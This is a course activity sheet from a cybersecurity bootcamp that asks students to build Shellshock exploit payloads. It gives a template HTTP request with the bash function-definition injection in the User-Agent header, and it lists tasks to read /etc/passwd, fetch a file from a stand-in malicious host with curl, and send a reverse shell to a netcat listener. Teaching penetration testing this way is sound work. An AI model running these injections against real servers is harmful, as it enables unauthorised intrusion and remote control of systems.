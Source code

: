 ## Activity File: Shellshock Payloads

In this activity, you will play the role of a penetration tester evaluating a client's machine for the Shellshock vulnerability. 

- You are tasked with using a template script to create custom exploits for the Shellshock vulnerability.

- Please use the example site `http://evil.site/mal.php` for creating your templates. 

### Instructions

Use the following template example as a reference:

  ```bash
  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; /bin/bash -c `command`
  Connection: keep-alive
  ```

- **Note:** The malicious command is preceded by `() { :;}; /bin/bash -c` in the `User-Agent` value. 

Open a text editor and write Shellshock payloads for the  tasks below. You may need to do additional research to complete the code injections. 

1. Read `/etc/passwd`.

2. Use `curl` to download a malicious file from `http://evil.site/mal.php`.

3. Open a netcat/ncat listener on your host's port `4444`.

4. Send a reverse shell to your port 4444 (in this example, use the IP address `192.168.0.8`). 


---
 
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.  All Rights Reserved.
